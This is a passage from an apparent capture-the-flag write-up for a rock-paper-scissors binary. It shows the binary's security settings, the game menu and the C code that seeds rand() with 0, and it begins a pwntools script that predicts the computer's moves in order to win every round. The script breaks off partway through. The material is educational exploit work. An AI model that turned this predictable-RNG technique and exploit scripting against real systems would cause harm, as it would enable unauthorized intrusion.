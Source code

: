 The binary is compiled with `-static`, so there's no need for libc. As for the binary itself:

```python
[*] 'game'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO     !
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000) !
```

Source code is provided, so I'll be skipping on the usual decompilation effort.

## Bugs

```c
+===============================================+
|   Wellcome to my Rock-Paper-Scissors's game   |
+-----------------------------------------------+
| Current score:
| NOOB player: 0 Points
| Computer: 0 Points
+-----------------------------------------------+
| Options:
| 1) Display game rules ------------- (0 Points)
| 2) Play next round ---------------- (0 Points)
| 3) Skip N rounds ------------------ (2 Points)
| 4) Enable Ascii-art --------------- (3 Points)
| 5) Change user name --------------- (5 Points)
| 6) Print the flag! ------- (4294967295 Points)
| 7) Exit --------------------------- (0 Points)
+-----------------------------------------------+
| Please chose an option [ ]
```

The challenge provided is a simple rock-paper-scissors simulator, limited to `ARRAY_OF_PLAYS_MAX_SIZE == 170` rounds. When the game starts, the program will initialize the 170 moves the computer plans to play using `rand()/srand()`:

```c
    // initializing pseudo-random values and populate array_of_plays
    srand(0);
    for(uint8_t i = 0; i < ARRAY_OF_PLAYS_MAX_SIZE; i++)
    {
        game_ctx->array_of_plays[i].id = i;
        game_ctx->array_of_plays[i].handsign = (rand() % MAX_HANDSIGNS) + MIN_HANDSIGN;
        game_ctx->array_of_plays[i].animation_function = print_ascii;
    }
```

`rand()` is [predictable](https://github.com/Naetw/CTF-pwn-tips#predictable-rngrandom-number-generator), and we can win every round of Rock-Paper-Scissors with 100% accuracy:

```python
from pwn import *
context.binary = 'game'
from ctypes import CDLL
clib = CDLL('libc.so.6')
clib.srand(0)
ARRAY_OF_PLAYS_MAXSIZE = 170
array_of_plays = [clib.rand()%3 for _ in range(ARRAY_OF_PLAYS_MAXSIZE)]
current_play = 0

r = remote('cop.ichsa.ctf.today', 8011)
def choose(opt: int):
    r.recvuntil('[ ]\b\b')
    r.sendline(str(opt))
```